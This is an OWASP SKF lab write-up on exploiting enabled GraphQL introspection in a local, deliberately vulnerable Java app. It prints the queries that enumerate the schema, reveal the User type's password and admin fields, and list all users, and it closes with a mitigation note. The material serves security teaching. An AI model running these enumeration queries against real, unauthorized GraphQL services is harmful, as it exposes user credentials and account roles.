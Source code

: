 # GraphQL Introspection

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-graphql-info-introspection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-graphql-info-introspection
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

![](../../.gitbook/assets/java/GraphQL-Introspections/1.png)

## Exploitation

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported.

Let' use the `GraphiQL` UI to send queries to the backend and discover what is available.

Go to `http://0.0.0.0:5000/graphiql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `User` one. If we build another query we can ask for more information, exploring every field available. Let's send the following:

```
{
	__type(name: "User"){
    name
    fields{
      name
    }
  }
}
```

In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```json
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "id"
        },
        {
          "name": "username"
        },
        {
          "name": "password"
        },
        {
          "name": "admin"
        }
      ]
    }
  }
}
```

> BINGO! We have some good information here

We can see that there is an interesting field `admin`, that we can use to find out who is the admin of the application.

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
{
	__schema{
    queryType{
      fields{
        name
        description
      }
    }
  }
}
```

That will give us the `findAllUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
	findAllUsers{
    username
    admin
  }
}
```

![](../../.gitbook/assets/java/GraphQL-Introspections/2.png)

## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.

## Additional resources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html" %}
